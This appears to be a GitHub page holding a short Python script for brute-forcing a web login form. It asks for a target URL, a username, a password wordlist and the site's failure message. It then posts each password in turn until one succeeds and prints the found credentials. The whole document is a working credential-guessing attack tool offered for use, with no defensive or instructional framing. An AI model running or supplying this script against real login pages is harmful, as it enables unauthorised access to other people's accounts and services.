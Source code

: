 # Login_page_Bruteforcing
#Python code to Bruteforce Login Page (Username & Password)
Bruteforcing Login page
# Importing the request Moduel from Python
import requests
# Accepting inputs from user (url,username,a password list in a txt file/path to password list file,failed to login message or text on Login Page)
url=input(f"[+] Please imput your url: \n")
username=input(f"[+] Please input the username for the account: \n")
password_file=input(f"[+] please input the list file name/ txt file: \n ")
failed_login=input(f"[+] Please input the failed login message: \n")
# opens and reads the password list in the txt file provided by user
with open(password_file, "r") as passwords:
# function to Bruteforce using list of passwords in the password txt file provided.    
    def Bruteforce(url,username):
            
            for password in passwords:
                password=password.strip()
                data={'username':username, 'password':password,'Login':'submit'}
                print(f"[+] Trying : {password}")
                response= requests.post(url,data=data)
                if failed_login in response.content.decode():
                    print(f"[+] Login unsuccessful for password:  {password}")
                    pass
                else:
                    print(f"[+] your username is :  {username}")
                    print(f"[+] Your Password is :  {password}")
                    exit()
    Bruteforce(url,username)
    print(f"Inputed Password file was unsuccessful. Password was not in the file list")

